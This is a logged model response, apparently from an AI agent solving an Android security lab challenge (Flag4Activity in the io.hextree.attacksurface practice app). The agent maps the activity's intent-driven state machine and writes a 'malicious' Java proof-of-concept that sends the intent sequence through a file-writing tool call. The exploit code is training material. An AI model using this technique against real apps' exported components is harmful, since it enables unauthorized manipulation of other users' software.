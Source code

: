 --- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='Alright, I have the code for `Flag4Activity`. Here\'s the state machine logic:\n\n1.  **INIT:** Initial state. `PREPARE_ACTION` transitions to `PREPARE`.\n2.  **PREPARE:** `BUILD_ACTION` transitions to `BUILD`.\n3.  **BUILD:** `GET_FLAG_ACTION` transitions to `GET_FLAG`.\n4.  **GET_FLAG:** *Any* action transitions to `REVERT`, calls `success(this)`, and logs "solved".\n5.  **REVERT:** `INIT_ACTION` transitions to `INIT`.\n\nThe goal is to reach the `GET_FLAG` state and then send *any* intent to trigger the `success` method.\n\nHere\'s the attack chain:\n\n1.  Send `PREPARE_ACTION` to transition from `INIT` to `PREPARE`.\n2.  Send `BUILD_ACTION` to transition from `PREPARE` to `BUILD`.\n3.  Send `GET_FLAG_ACTION` to transition from `BUILD` to `GET_FLAG`.\n4.  Send a final, arbitrary intent (e.g., with an empty action) to transition from `GET_FLAG` to `REVERT` and trigger the flag.\n\nNow, I will craft a malicious Android application to send these intents. I\'ll create two files: `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.\n\n'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousflag4poc;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Step 1: Send PREPARE_ACTION\n        sendAction(PREPARE_ACTION);\n\n        // Step 2: Send BUILD_ACTION\n        sendAction(BUILD_ACTION);\n\n        // Step 3: Send GET_FLAG_ACTION\n        sendAction(GET_FLAG_ACTION);\n\n        // Step 4: Send a final intent to trigger the flag\n        sendAction(""); // Empty action\n\n        Log.i("MaliciousFlag4PoC", "Intents sent");\n        finish(); // Close the activity after sending intents\n    }\n\n    private void sendAction(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.i("MaliciousFlag4PoC", "Sent action: " + action);\n    }\n}\n'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.06603356047049581, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=716, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=716)], prompt_token_count=14820, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=14820)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=15536, traffic_type=None), automatic_function_calling_history=[], parsed=None)

--- Parsed Reasoning/Thought ---
Alright, I have the code for `Flag4Activity`. Here's the state machine logic:

1.  **INIT:** Initial state. `PREPARE_ACTION` transitions to `PREPARE`.
2.  **PREPARE:** `BUILD_ACTION` transitions to `BUILD`.
3.  **BUILD:** `GET_FLAG_ACTION` transitions to `GET_FLAG`.
4.  **GET_FLAG:** *Any* action transitions to `REVERT`, calls `success(this)`, and logs "solved".
5.  **REVERT:** `INIT_ACTION` transitions to `INIT`.
